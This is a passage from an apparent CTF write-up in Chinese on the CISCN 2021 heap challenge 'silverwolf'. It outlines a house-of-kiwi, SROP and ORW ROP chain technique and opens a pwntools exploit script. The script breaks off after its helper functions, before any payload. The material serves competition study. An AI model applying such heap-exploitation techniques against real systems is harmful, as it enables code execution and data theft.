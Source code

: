 #### 例题 CISCN 2021 初赛 silverwolf

按照house of kiwi的方法构造好`__IO_file_sync`和`_IO_helper_jumps`后任意地址写修改top_chunk的size，清空small bin后再申请chunk触发assert，之后就是SROP调用read，往一个可写地址写rop链进行orw

```python
#!/usr/bin/python3

from pwn import *
import sys
import time

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='silverwolf'
libc_name='/home/x1ng/new/glibc-all-in-one/libs/2.29-0ubuntu2_amd64/libc.so.6'

libc=ELF(libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('', )



def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('Your choice:',str(num))

def add(idx,sz):
	cho(1)
	sla('Index:',str(idx))
	sla('Size:',str(sz))

def edit(idx,val):
	cho(2)
	sla('Index:',str(idx))
	ru('Content:')
	sl(val)

```